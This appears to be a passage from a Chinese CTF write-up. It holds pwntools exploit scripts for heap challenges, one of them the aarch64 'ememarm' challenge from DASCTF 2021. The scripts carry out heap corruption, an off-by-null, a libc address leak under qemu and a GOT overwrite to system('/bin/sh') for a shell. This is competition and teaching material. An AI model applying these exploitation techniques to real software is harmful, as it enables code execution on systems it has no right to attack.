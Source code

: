 ```
    add(0x50) # 1
    add(0x10) # 2
    payload = p32(0) + p32(0x11) + p32(0x2106C - 4*3) + p32(0x2106C - 4*2) + p32(0x10) + p32(0x58)
    edit(0, len(payload), payload)
    delete(1)
    payload = p32(0)*2 + p32(0x10) + p32(elf.got['atoi'])
    edit(0, len(payload), payload)
    show()
    io.recvuntil("0 : ")
    libc.address = u32(io.recv(4)) - libc.sym['atoi']
    success("libc_base:\t" + hex(libc.address))
    edit(0, 4, p32(libc.sym['system']))
    io.sendlineafter(">>> ", b'/bin/sh\x00')
    io.interactive()

```

### 2021 DASCTF 1 月赛 ememarm

`aarch64`架构下的堆，很明显有一个`off by null`，简单构造利用一下即可。

 

需要注意的是`aarch64`架构下的`libc`泄露，由于跑`qemu`的时候，`libc_base`一般都是`0x4000XXX000`这样的地址，因此泄露数据的时候会被`\x00`截断，其实只需要泄露后三个字节（后六位），然后加上`0x4000000000`即可得到泄露出的`libc`地址。

```
from pwn import *
context(os = 'linux', arch = 'aarch64', log_level = 'debug')
 
io = process("qemu-aarch64 -L ./ ./pwn", shell = True)
 
elf = ELF("./pwn")
libc = ELF("./lib/libc-2.27.so")
 
def add(sign = 0, cx = "winmt", cy = "winmt"):
    io.sendlineafter("you choice: \n", b'1')
    io.sendafter("cx:\n", cx)
    io.sendafter("cy:\n", cy)
    io.sendlineafter("delete?\n", str(sign))
 
def del_edit(idx, content):
    io.sendlineafter("you choice: \n", b'3')
    io.sendline(str(idx))
    io.send(content)
 
def quit():
    io.sendlineafter("you choice: \n", b'5')
 
if __name__ == '__main__':
    io.send(b'/bin/sh\x00')
    add()
    add()
    add(1)
    add(1, p64(0), p64(0x21))
    del_edit(1, p64(0) + p64(0x31) + p64(0))
    add(1, p64(0), p64(elf.got['printf']))
    del_edit(2, p64(elf.got['puts']))
    add(0, p64(0), p64(elf.got['free']))
    del_edit(2, p64(elf.plt['puts']))
    libc.address = 0x4000000000 + u64(io.recv(3).ljust(8, b'\x00')) - libc.sym['puts']
    success("libc_base:\t" + hex(libc.address))
    del_edit(2, p64(libc.sym['system']))
    quit()
    io.interactive()
```